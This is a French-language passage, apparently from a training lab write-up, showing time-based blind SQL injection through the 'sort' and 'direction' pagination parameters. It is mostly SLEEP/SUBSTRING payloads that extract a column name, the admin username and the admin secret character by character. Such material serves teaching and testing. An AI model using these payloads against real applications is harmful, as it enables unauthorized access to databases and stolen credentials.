 ```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 2),3,1))=ORD('c'),0,5))))a)
```

La troisième et dernière colonne se nomme "secret".

Récupération du secret de l'administrateur :

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0),1,1))=ORD('a'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0),2,1))=ORD('d'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0),3,1))=ORD('d'),0,5))))a)
```

Le nom d'utilisateur est "admin".

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),1,1))=ORD('M'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),2,1))=ORD('o'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),3,1))=ORD('n'),0,5))))a)
```

Son secret est "Mon mot de passe est passw0rd"

_Exploitation du paramètre "direction"_

L'exploitation du paramètre "direction" est très similaire à celle du paramètre "sort". Pour cette raison, seule la récupération du secret de l'administrateur sera illustrée :&#x20;

```sql
ASC,(SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),1,1))=ORD('M'),0,5))))a)
```

```sql
ASC,(SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),2,1))=ORD('o'),0,5))))a)
```

```sql
ASC,(SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),3,1))=ORD('n'),0,5))))a)
```
